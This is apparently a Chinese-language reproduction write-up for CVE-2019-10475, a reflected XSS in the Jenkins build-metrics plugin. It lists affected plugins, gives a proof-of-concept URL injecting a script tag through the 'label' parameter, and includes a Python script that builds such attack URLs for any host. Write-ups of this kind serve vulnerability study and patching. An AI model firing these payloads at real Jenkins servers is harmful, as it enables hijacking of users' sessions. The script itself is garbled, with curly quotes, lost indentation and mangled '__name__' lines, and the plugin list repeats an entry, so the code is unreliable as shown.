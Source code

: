 ```yaml
---
title: （CVE-2019-10475）反射xss
id: zhfly2988
---
```


# （CVE-2019-10475） 插件反射型xss

## 一、漏洞简介

## 二、漏洞影响

360 FireLine插件， 最高包括1.7.2
Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下
部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3
Dynatrace应用程序监视插件， 最高包括2.1.4
ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件
Libvirt Slaves插件， 最高包括1.8.5
截至 2.7.0的 Mattermost Notification插件
Sonar Gerrit插件， 最高包括2.3
Zulip插件 （包括1.1.0及以下）

## 三、复现过程

### 1、手工复现

该vulnearble插件位于http://localhost:8080/plugin/build-metrics/，漏洞参数为label。

```
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search 
```

![image](../img/3b907c11df79bf260c28fcf542e7d936.png)

### 2、利用脚本

> ```
> Usage:
> 
> $ python3 CVE-2019-10475.py --help
> 
> usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]
> 
> CVE-2019-10475 `optional arguments:
> 
> -h, --help            show this help message and exit
> 
> -p PORT, --port PORT  port
> 
> -d DOMAIN, --domain DOMAIN
> 
> domain
> 
> -i INJECT, --inject INJECT
> 
> inject` 
> ```

```
#!/usr/bin/env python

import sys

import argparse

VULN_URL = ‘’’{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search’’’

def get_parser():

parser = argparse.ArgumentParser(description=‘CVE-2019-10475’)

parser.add_argument(’-p’, ‘–port’, help=‘port’, default=80, type=int)

parser.add_argument(’-d’, ‘–domain’, help=‘domain’, default=‘localhost’, type=str)

parser.add_argument(’-i’, ‘–inject’, help=‘inject’, default=’<script>alert(“CVE-2019-10475”)</script>’, type=str)

return parser

def main():

parser = get_parser()

args = vars(parser.parse_args())

port = args[‘port’]

domain = args[‘domain’]

inject = args[‘inject’]

if port == 80:

base_url = f’http://{domain}’

elif port == 443:

base_url = f’https://{domain}’

else:

base_url = f’http://{domain}:{port}’

build_url = VULN_URL.format(base_url=base_url, inject=inject)

print(build_url)

return 0 `if **name** == ‘**main**’:

sys.exit(main())` 
```